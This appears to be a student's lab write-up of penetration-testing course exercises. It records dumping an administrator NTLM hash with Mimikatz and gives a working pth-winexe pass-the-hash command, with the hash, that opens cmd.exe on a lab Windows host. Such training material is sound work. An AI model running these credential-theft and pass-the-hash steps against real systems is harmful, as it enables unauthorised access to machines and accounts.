


### 19.4.2.1 Exercises
#### 1. Use Mimikatz to extract the password hash of an administrative user from the Windows client.



Obtained NTLM hash for user `administrator` which was `2892d26cdf84d7a70e2eb3b9f05c425e`

#### 2. Reuse the password hash to perform a pass-the-hash attack from your Kali system and obtain code execution on your Windows client.

Using the above NTLM hash along with the 'no password' LM hash of  `aad3b435b51404eeaad3b435b51404ee`, formed the following PTH command:

```bash
pth-winexe -U administrator%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //192.168.216.10 cmd.exe
```

